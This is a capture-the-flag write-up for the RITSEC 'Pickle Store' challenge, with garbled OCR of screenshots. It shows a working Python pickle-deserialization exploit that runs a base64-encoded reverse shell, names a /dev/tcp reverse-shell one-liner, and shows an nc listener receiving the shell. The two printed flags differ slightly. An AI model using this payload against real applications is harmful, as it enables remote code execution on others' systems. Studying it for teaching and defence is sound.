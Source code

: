 # Pickle Store
> New pickles just dropped! Check out the store.

> https://pickles-web.challenges.ctf.ritsec.club/

## About the Challenge
We were given a website that has a functionality to order a pickle


[Image extracted text: Fresh Pickles
Order some
pickles! We have sweet pickles, sour pickles, savory pickles, and pickles you've never even heard 0f before!
Select a pickle below:
Sweet Pickle: $2
Sour Pickle: $2
Savory Pickle: $2
Salty Pickle: $2]


## How to Solve?
If we see the request, there is a cookie called `order` and the value is Base64 encoded message. When I first saw the cookie, the first thing that comes to my mind was `Pickle Insecure Deserialization to RCE`


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
GET
forder
HTTP / 2
HTTP / =
200
OK
Host
pickles-veb- challenges
ct f
ritsec
clbb
Server
cunicorn
Cookie:
order-gASVD#LAALLAAACHC 313ZUVOcGljafxlIC4=
Dat e
Sun ,
02
Apr
2023 15:21:18
GHT
User-Agent
Hozilla/5_
(Vindous
IT
Ving4 ;
264;
Content
Type:
text /hcal
charset-ut f-8
17.109
Gecko/zO1OO101
Firefox/1l
Content-
Lengch:
222
1ccept
Via:
google
cext/htnl
applicat
on / *hcnltxnl
applicat
on/*nl
9-0
9 , image/ av
Alt-Svc:
h3=
443"
ma-2592000,h3-292":443"
ma-2592000
1f
inage/vebp
4-0.
Accept-Language
en-US
en;
<IDOCTTPE
henl>
1ccept-
Encoding:
gzip
deflace
<head>
Re ferer
https:
mpickles-veb
challenges
ctfritsec_
club /
xcitle>
Upgrade
Ins
cure
Requests:
Pickle
Score
Sec--
etch-Dest
docuent
~Icitle
Sec--
etch-
Hode:
navigate
{linl-
rel=
stylesheet
href-" /static/style
Css
Sec-
etch-Sice
origin
~/head>
Sec-Fetch-User:
<body>
Te:
crailers
shl>
Here
Your
order
<fhl>
<h_>
steetpickle
</h->
class=
button
href=
Nev Order
</a>
~/body>
4-0
a]


And then I tried to do some research about that vulnerability and I got this script to exploit that vulnerability

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('echo "BASE64_REVERSE_SHELL" | base64 -d | bash')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Why should I encode the command first using Base64 instead of directly using `/bin/sh -i >& /dev/tcp/IP/PORT 0>&1`? That's because I can't do a reverse shell if I'm using that command.

Run the script and then change the value of the cookie with the output of the script. And then to obtain the flag, try to read `/flag` file


[Image extracted text: rootadaffainfo:~#
nc
~nlvp 4444
Listening
on
0.0.0.0 4444
Connection
received
on
34.138.178.104 2050
Ibingsh: 0:
can' t
access tty; job control turned off
cat
RS{TH3_L345T_53CUR3_PICKL3}
Iflag]


```
RS{TH3_L345T_53CUR3_P1CKL3}
```